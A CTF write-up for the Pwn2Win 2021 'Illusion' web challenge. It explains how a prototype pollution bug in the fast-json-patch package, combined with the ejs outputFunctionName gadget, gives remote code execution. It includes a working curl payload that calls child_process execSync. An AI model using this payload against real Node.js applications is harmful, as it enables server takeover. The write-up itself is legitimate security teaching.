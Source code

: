 # Pwn2Win CTF 2021 [web] Illusion writeup

## Challenge

Laura just found a website used for monitoring security mechanisms on Rhiza's state and is planning to hack into it to forge the status of these security services. After that she will desactivate these security resources without alerting government agents. Your goal is to get into the server to change the monitoring service behavior.

Server: `nc illusion.pwn2win.party 1337`

## Solution

This is a simple web application that stores the status of services.

You have to execute `./readflag` to get the flag.

There is an API that can modify the status of services.

```javascript
// API
app.post("/change_status", (req, res) => {

    let patch = []

    Object.entries(req.body).forEach(([service, status]) => {

        if (service === "status"){
            res.status(400).end("Cannot change all services status")
            return
        }

        patch.push({
            "op": "replace",
            "path": "/" + service,
            "value": status
        })
    });

    jsonpatch.applyPatch(services, patch)

    if ("offline" in Object.values(services)){
        services.status = "offline"
    }

    res.json(services)
})
```

```
curl -i -X POST \
  http://localhost:1337/change_status \
  --header "Content-type: application/json" \
  --data '{"cameras": "online","doors": "online","dome": "online","turrets": "offline"}'
```

Now, at first glance, these do not appear to be vulnerable.

And all the npm packages used seem to be up to date.

```json
{
  "dependencies": {
    "ejs": "^3.1.6",
    "express": "^4.17.1",
    "express-basic-auth": "^1.2.0",
    "fast-json-patch": "^3.0.0-1"
  }
}
```

However, if you check the package [fast-json-patch](https://github.com/Starcounter-Jack/JSON-Patch), you will find a Prototype Pollution vulnerability that is unfixed.

[Security Fix for Prototype Pollution - Starcounter-Jack/JSON-Patch](https://github.com/Starcounter-Jack/JSON-Patch/pull/262)

This web application uses `ejs`, which is known to be capable of RCE by Prototype Pollution.

[Unrestricted render option may lead to a RCE vulnerability - mde/ejs](https://github.com/mde/ejs/issues/451)

All the parts are in place. Here's the exploit code.

```sh
curl -i -X POST \
  http://admin:xxxx@illusion.pwn2win.party:1337/change_status \
  --header "Content-type: application/json" \
  --data '{"constructor/prototype/outputFunctionName": "a; return global.process.mainModule.constructor._load(\"child_process\").execSync(\"./readflag\"); //"}'

curl http://admin:xxxx@illusion.pwn2win.party:1337/
```

```
CTF-BR{d0nt_miX_pr0totyPe_pol1ution_w1th_a_t3mplat3_3ng1nE!}
```
